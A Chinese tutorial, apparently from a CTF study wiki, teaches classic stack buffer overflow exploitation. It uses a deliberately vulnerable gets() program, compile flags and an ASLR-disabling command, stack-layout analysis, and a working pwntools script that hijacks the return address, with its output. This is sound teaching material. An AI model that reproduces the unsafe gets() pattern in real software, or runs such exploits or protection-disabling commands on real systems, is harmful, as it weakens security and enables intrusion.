


# 栈溢出原理

## 概述

**栈溢出（Stack Overflow）** 是一种经典的缓冲区溢出漏洞，指程序向栈上某个变量写入的数据超过了该变量本身申请的空间，导致相邻栈区域的数据被覆盖。

### 为什么重要

栈溢出漏洞是二进制漏洞利用的基石：
- **轻则导致程序崩溃** - 覆盖了重要的控制信息
- **重则控制程序执行流程** - 攻击者可以劫持程序执行流
- **是学习 pwn 的入门必修课** - 理解栈溢出是学习其他高级漏洞利用的基础

### 发生栈溢出的基本前提

1. **程序必须向栈上写入数据** - 存在输入点
2. **写入的数据大小没有被良好控制** - 没有边界检查

---

## 详细解释

### 栈溢出的本质

栈溢出利用的核心思想是：**覆盖程序的返回地址为攻击者所控制的地址**。

但需要注意一个重要前提：
> 确保覆盖的地址所在的段具有可执行权限（NX 保护需关闭）

### 基本示例详解

让我们通过一个完整的例子来理解栈溢出的利用过程。

#### 示例代码

```c
#include <stdio.h>
#include <string.h>

void success(void)
{
    puts("You Hava already controlled it.");
}

void vulnerable(void)
{
    char s[12];  // 只申请了 12 字节的空间

    gets(s);     // 危险函数！不检查输入长度
    puts(s);

    return;
}

int main(int argc, char **argv)
{
    vulnerable();
    return 0;
}
```

**目标**：控制程序执行 `success` 函数，即使正常流程不会调用它。

#### 编译程序

我们需要关闭一些保护机制来简化利用：

```bash
gcc -m32 -fno-stack-protector stack_example.c -o stack_example
```

参数说明：
- `-m32` - 生成 32 位程序
- `-fno-stack-protector` - 关闭栈溢出保护（不生成 canary）
- 如果 PIE 默认开启，还需要添加 `-no-pie`

编译时会看到警告：
```
stack_example.c: In function ‘vulnerable’:
stack_example.c:6:3: warning: implicit declaration of function ‘gets’
   gets(s);
   ^
警告：the `gets' function is dangerous and should not be used.
```

这个警告正是我们想要的 - `gets` 是危险函数！

#### 历史背景

> **莫里斯蠕虫** - 历史上著名的蠕虫病毒，就是利用了 `gets` 函数的栈溢出漏洞实现传播的。

#### 检查保护机制

使用 `checksec` 工具查看程序的保护状态：

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found  ✓ 没有栈保护
NX:       NX enabled       ✗ NX 开启（堆和栈不可执行）
PIE:      No PIE (0x8048000)  ✓ 没有 PIE
```

#### 相关保护机制说明

在深入利用之前，我们需要了解几个重要的保护机制：

**PIE（Position Independent Executable）**
- 位置无关可执行文件
- 每次加载程序的基地址不同
- 可以通过 `-no-pie` 关闭

**ASLR（Address Space Layout Randomization）**
- 地址空间布局随机化
- Linux 系统级别的保护
- 通过 `/proc/sys/kernel/randomize_va_space` 控制：
  - `0` - 关闭 ASLR
  - `1` - 普通 ASLR（栈、库随机化）
  - `2` - 增强 ASLR（增加堆随机化）

为了简化演示，我们关闭 ASLR：
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

#### 分析栈布局

使用 IDA 反编译后，可以看到 `vulnerable` 函数：

```c
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

关键信息：**字符串距离 EBP 的长度为 0x14（20 字节）**

对应的栈结构：

```
高地址
  +-----------------+
  | retaddr         |  ← 返回地址（4字节）
  +-----------------+
  | saved ebp       |  ← 旧的 EBP（4字节）
ebp+-----------------+
  |                 |
  |                 |
  |                 |
  |  局部变量 s     |  ← 0x14 字节空间
  |                 |
  |                 |
s,ebp-0x14+-----------------+
低地址
```

#### 获取目标函数地址

通过 IDA 可以找到 `success` 函数的地址：`0x0804843B`

对应的汇编代码：
```assembly
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

#### 构造 Payload

我们需要构造这样的输入：

```
[填充 0x14 字节] + [覆盖 saved ebp（4字节）] + [覆盖 retaddr（4字节）]
```

具体来说：
```
0x14 * 'a' + 'bbbb' + success_addr
```

覆盖后的栈结构：

```
  +-----------------+
  | 0x0804843B      |  ← 返回地址被覆盖为 success 函数
  +-----------------+
  | bbbb            |  ← saved ebp 被覆盖
ebp+-----------------+
  |                 |
  |  'a' * 0x14     |  ← 填充局部变量
  |                 |
  +-----------------+
```

#### 小端序问题

需要注意：**x86 架构使用小端序存储**

地址 `0x0804843B` 在内存中的实际存储是：
```
\x3b\x84\x04\x08
```

但在终端中，我们无法直接输入这些字节，需要使用工具辅助。

#### 使用 pwntools 编写利用脚本

```python
##coding=utf8
from pwn import *

# 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x08049186  # 注意：实际地址可能不同

# 构造 payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))

# 向程序发送字符串
sh.sendline(payload)

# 将代码交互转换为手工交互
sh.interactive()
```

#### 执行结果

```
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.  ← 成功执行了 success 函数！
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到，我们成功控制了程序执行流！

---

## 主要特性/关键点

### 栈溢出利用的一般步骤

上面的示例展示了栈溢出利用的核心步骤。让我们用流程图来看：



### 栈溢出前后对比图



上面的示例展示了栈溢出利用的核心步骤：

#### 1. 寻找危险函数

通过识别危险函数，快速确定程序是否存在栈溢出风险：

**输入类危险函数：**
- `gets` - 直接读取一行，忽略 `\x00`（最危险）
- `scanf` - 根据格式化字符串读取
- `vscanf` - 可变参数版本的 scanf

**输出类危险函数：**
- `sprintf` - 格式化输出到缓冲区

**字符串操作危险函数：**
- `strcpy` - 字符串复制，遇到 `\x00` 停止
- `strcat` - 字符串拼接，遇到 `\x00` 停止
- `bcopy` - 内存复制

#### 2. 确定填充长度

计算**我们要操作的地址与要覆盖的地址之间的距离**。

常见的变量索引模式：

| 索引模式 | 说明 | 计算方法 |
|---------|------|---------|
| 相对于栈基地址 | `[ebp-0x14]` | 直接看反编译结果 |
| 相对于栈顶指针 | `[esp+0x10]` | 需要调试后转换 |
| 直接地址索引 | `0x804a020` | 直接给定地址 |

常见的覆盖需求：

- **覆盖函数返回地址** - 看 EBP 即可（最简单）
- **覆盖栈上某个变量** - 需要更精细的计算
- **覆盖 bss 段变量** - 利用全局变量
- **覆盖特定地址** - 根据实际需求

---

## 应用场景

栈溢出技术在以下场景中广泛应用：

### CTF 比赛
- **pwn 题目的基础** - 大多数 pwn 入门题都是栈溢出
- **各种变种** - ret2libc、ROP、栈迁移等都是栈溢出的延伸

### 真实世界漏洞挖掘
- **历史上的重大漏洞** - 许多著名漏洞都是栈溢出
- **嵌入式设备** - 很多 IoT 设备没有现代保护机制

---

## 相关概念

- [[栈介绍]] - 栈的基本原理
- [[C语言函数调用栈（一）]] - 函数调用栈机制
- [[C语言函数调用栈（二）]] - 调用约定
- [[基本ROP]] - Return Oriented Programming（进阶技术）
- [[中级ROP]] - 更高级的 ROP 技术
- [[ret2libc]] - 利用 libc 的技术

---

## 参考资料

1. [Stack Buffer Overflow - Wikipedia](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
2. [栈溢出详解 - 360安全](http://bobao.360.cn/learning/detail/3694.html)
3. [栈溢出利用教程 - 博客园](https://www.cnblogs.com/rec0rd/p/7646857.html)
